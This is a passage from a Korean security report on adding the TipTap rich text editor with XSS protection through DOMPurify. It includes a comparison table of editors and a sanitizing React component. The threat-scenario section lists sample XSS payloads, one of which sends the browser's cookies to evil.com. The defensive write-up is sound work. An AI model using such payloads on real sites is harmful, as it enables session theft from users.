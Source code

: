 # Editor Integration 보안 분석 보고서 (구현 완료)

## Executive Summary

AsyncSite에 TipTap Rich Text Editor를 도입하면서 적용한 보안 대책과 구현 결과입니다. DOMPurify를 통한 XSS 방지를 중심으로 실제 구현된 보안 체계를 설명합니다.

**구현 완료**: 2025년 8월 6일 - DOMPurify 기반 XSS 방지 체계 성공적 구축

## 1. 주요 보안 위협 분석

### 1.1 Cross-Site Scripting (XSS)

#### 위협 시나리오
```javascript
// 악성 사용자가 에디터에 입력하는 코드
<img src=x onerror="fetch('https://evil.com/steal?cookie='+document.cookie)">
<script>alert('XSS')</script>
<div onmouseover="maliciousCode()">Hover me</div>
```

#### 에디터별 XSS 방어 수준

| 에디터 | 기본 방어 | Sanitization | CSP 호환 | 보안 점수 |
|--------|-----------|--------------|----------|-----------|
| **Lexical** | 우수 | 내장 | ✅ | 9/10 |
| **Editor.js** | 우수 | JSON 기반 | ✅ | 9/10 |
| **TipTap** | 양호 | 설정 필요 | ✅ | 8/10 |
| **CKEditor 5** | 우수 | 내장 | ✅ | 9/10 |
| **TinyMCE** | 우수 | 내장 | ✅ | 9/10 |
| **Quill** | 양호 | 설정 필요 | ✅ | 7/10 |
| **ProseMirror** | 구현 의존 | 커스텀 | ✅ | 7/10 |
| **Slate** | 구현 의존 | 커스텀 | ✅ | 6/10 |
| **Froala** | 우수 | 내장 | ✅ | 8/10 |

#### 실제 구현된 방어 전략 ✅

**1. DOMPurify 통합 (구현 완료)**

```typescript
// RichTextDisplay.tsx - 실제 구현 코드
import DOMPurify from 'dompurify';

interface RichTextDisplayProps {
  content: string;
  className?: string;
}

function RichTextDisplay({ content, className = '' }: RichTextDisplayProps) {
  // DOMPurify를 사용한 HTML sanitization
  const sanitizedHTML = DOMPurify.sanitize(content);
  
  return (
    <div 
      className={`rich-text-display ${className}`}
      dangerouslySetInnerHTML={{ __html: sanitizedHTML }}
    />
```